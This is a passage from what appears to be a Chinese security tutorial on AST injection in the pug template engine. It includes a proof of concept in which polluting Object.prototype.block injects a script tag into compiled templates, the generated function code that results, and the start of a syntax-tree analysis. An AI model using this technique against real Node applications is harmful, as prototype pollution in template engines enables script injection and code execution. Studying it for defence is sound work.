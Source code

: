 ### pug template AST injection 示例

```plain
const pug = require('pug');

// 模拟原型链污染
Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html); // <h1>It works<script>alert(origin)</script></h1>
```

当执行到 `fn({msg: 'It works'});` 这一步的时候，本质上是进入了一段函数

打印出这段函数的代码，可以看到通过原型链污染我们实现了向生成代码中插入一段字符串

```plain
(function anonymous(pug
) {
function template(locals) {var pug_html = "", pug_mixins = {}, pug_interp;var pug_debug_filename, pug_debug_line;try {;
    var locals_for_with = (locals || {});

    (function (msg) {
      ;pug_debug_line = 1;
pug_html = pug_html + "\u003Ch1\u003E";
;pug_debug_line = 1;
pug_html = pug_html + (pug.escape(null == (pug_interp = msg) ? "" : pug_interp)) + "\u003Cscript\u003Ealert(origin)\u003C\u002Fscript\u003E\u003C\u002Fh1\u003E";
    }.call(this, "msg" in locals_for_with ?
        locals_for_with.msg :
        typeof msg !== 'undefined' ? msg : undefined));
    ;} catch (err) {pug.rethrow(err, pug_debug_filename, pug_debug_line);};return pug_html;}
return template;
})
```

### AST Injection原理分析(以pug为例)

#### 语法树结构

pug 解析 `h1= msg` ，生成的语法树结构：

```plain
{
    "type":"Block",
    "nodes":[
        {
            "type":"Tag",
            "name":"h1",
            "selfClosing":false,
            "block":{
                "type":"Block",
                "nodes":[
                    {
                        "type":"Code",
                        "val":"msg",
                        "buffer":true,
                        "mustEscape":true,
                        "isInline":true,
                        "line":1,
                        "column":3
```